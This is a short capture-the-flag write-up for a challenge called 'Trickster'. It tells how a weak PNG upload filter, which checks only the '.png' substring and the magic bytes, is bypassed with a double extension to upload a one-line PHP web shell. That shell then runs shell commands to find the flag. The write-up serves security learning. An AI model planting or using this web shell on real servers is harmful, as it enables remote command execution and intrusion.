 # Trickster

If we check out `/robots.txt`, we find:

```text
User-agent: *
Disallow: /instructions.txt
Disallow: /uploads/
```

On accessing `/instructions.txt`:

```text
Let's create a web app for PNG Images processing.
It needs to:
Allow users to upload PNG images
    look for ".png" extension in the submitted files
    make sure the magic bytes match (not sure what this is exactly but wikipedia says that the first few bytes contain 'PNG' in hexadecimal: "50 4E 47" )
after validation, store the uploaded files so that the admin can retrieve them later and do the necessary processing.
```

We can upload a PNG file and can access it at `/uploads/img.png`, but access to parent folder `/uploads/` is forbidden \
On trying to upload some non-PNG file, we get "Error: File name does not contain '.png'."

"contains". Hmmm... Uploading a non-PNG file named as `file.png.txt` worked!

Create a [webshell](https://portswigger.net/web-security/file-upload):

```php
PNG
<?php echo system($_GET['cmd']); ?>
```

`/uploads/webshell.png.php?cmd=ls%20..` lists out files in the root directory, among which "GAZWIMLEGU2DQ.txt" seems interesting

Accessing `/GAZWIMLEGU2DQ.txt` gives the flag
